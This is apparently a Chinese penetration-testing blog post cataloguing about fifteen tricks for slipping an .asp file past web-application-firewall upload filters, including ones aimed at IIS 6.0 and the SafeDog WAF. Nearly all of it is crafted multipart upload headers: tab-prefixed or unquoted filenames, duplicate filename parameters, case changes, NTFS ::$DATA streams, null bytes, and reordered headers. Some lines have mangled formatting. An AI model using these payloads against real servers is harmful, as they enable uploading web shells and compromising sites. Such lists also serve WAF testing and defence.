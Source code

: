 ```yaml
---
title: 上传文件的各种套路
date: 2017-09-11 17:32:30
tags: 渗透
---
```


原始默认状态：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破0，文件名前缀加[0x09]绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”[0x09]backlion.asp”Content-Type: text/html

突破1，文件名去掉双引号绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=backlion.aspContent-Type: text/html

突破2，添加一个filename1的文件名参数，并赋值绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”;filename1=”test.jpg”Content-Type: text/html

突破3， form变量改成f+orm组合绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: f+orm-data; name=”filepath”;filename=”backlion.asp”Content-Type: text/html

突破4 ，文件名后缀大小写绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.Asp”Content-Type: text/html

突破5 ，去掉form-data变量绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破6，在Content-Disposition:后添加多个空格 或者在form-data;后添加多个空格绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data ; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data ; name=”filepath”; filename=”baclion.asp”Content-Type: text/html


突破7 ，backlion.asp . (空格+.)绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp .”Content-Type: text/html

突破8 ，“回车换行，绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破9 ，NTFS流 在文件名后加::$DATA绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA\0x00\fuck.asp0x00.jpg”Content-Type: text/html
突破10， 经过对IIS 6.0的测试发现，其总是采用第一个Content-Disposition中的值做为接收参数，而安全狗总是以最后一个Content-Disposition中的值做为接收参数。因此尝试构造如下请求[上传backlion.asp成功]：

    Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”—————————–15377259221471Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.txt”Content-Type: application/octet-streamContent-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”Content-Disposition: form-data;name=”FileUploadName”; filename=”backlion.asp”

突破11，将Content-Type和ConTent-Disposition调换顺序位置绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Type: text/htmlConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”

突破12，在文件名前缀加空格（tab键可替换）绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename= “backlion.asp”Content-Type: text/html

突破13，在form-data加空格绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”uploaded”; filename=”backlion.asp”Content-Type: text/html
突破14，在form-data的前后加上+绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: +form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data+; name=”filepath”; filename=”backlion.asp”Content-Type: text/html



